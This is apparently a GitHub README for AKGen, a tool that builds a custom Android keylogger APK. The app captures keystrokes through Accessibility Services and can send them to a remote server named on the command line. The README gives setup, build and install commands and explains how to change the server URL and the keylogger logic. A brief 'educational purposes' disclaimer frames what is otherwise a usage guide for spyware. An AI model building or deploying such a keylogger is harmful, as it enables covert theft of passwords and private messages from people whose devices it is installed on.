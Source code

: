 # Android Keylogger Generator (AKGen)

AKGen is an open-source tool that allows users to generate a custom keylogger APK for Android devices. This tool is strictly for educational and ethical purposes. It helps users understand how keyloggers work and how to protect against them.

---

## Features
- **Customizable Keylogger:** Generate a keylogger APK with your own settings.
- **Local or Remote Logging:** Save keystrokes locally or send them to a remote server.
- **Tested on Kali Linux:** Fully compatible with Kali Linux.

---

## Prerequisites
Before using AKGen, ensure you have the following installed:
1. **Python 3** (Pre-installed on Kali Linux)
2. **Android SDK** (Download from [developer.android.com](https://developer.android.com/studio))
3. **Gradle** (Install using `sudo apt install gradle`)
4. **Git** (Install using `sudo apt install git`)


---

## Installation
1. Clone the repository:
```bash
git clone https://github.com/trmxvibs/AKGen
cd AKGen
```
2. Install required dependencies:
 ```bash
pip install argparse subprocess os shutil
```

3. Set up Android SDK and Gradle:

Download and install Android SDK.

Set environment variables:
```bash
export ANDROID_HOME=/path/to/android-sdk
export PATH=$PATH:$ANDROID_HOME/tools/bin
```
---

# How to Use
Step 1: Generate the APK
Run the following command to generate the keylogger APK:
```bash
python akgen.py -o output.apk -s http://yourserver.com
```
`-o`: Output APK file name (e.g., output.apk).

`-s`: Server URL to send keystrokes (optional). If not provided, keystrokes will be saved locally.


# Step 2: Install the APK
Transfer the generated APK (`output.apk`) to your Android device.

Install the APK on your device.

 # Step 3: Enable Keylogger
Open the app on your Android device.

Click the "Enable Keylogger" button.

Grant the necessary permissions (Accessibility Services).
---
# Customization
You can customize the keylogger APK as per your requirements:

1. Change Server URL
Modify the `-s` parameter in the command to specify your server URL:
```
python akgen.py -o output.apk -s http://your-custom-server.com
```
2. Modify Keylogger Logic
Edit the KeyLoggerService.java file in the template_apk folder to change the keylogger behavior:

`private static final String SERVER_URL = "YOUR_SERVER_URL`


3. Modify UI
Edit the `activity_main.xml` file in the `template_apk` folder to change the app's user interface.


---

# How It Works -
APK Generation:

The `akgen.py` script modifies the template APK based on user input (e.g., server URL).

It builds the APK using Gradle.

Keylogger Functionality:

The app uses Android's Accessibility Services to capture keystrokes.

Captured keystrokes are either saved locally or sent to a remote server.




# License
This project is licensed under the MIT License. See the LICENSE file for details.

# Contributing
Contributions are welcome! If you have any suggestions or improvements, feel free to open an issue or submit a pull request.

# Disclaimer
The developers are not responsible for any misuse of this tool. Use it at your own risk.






















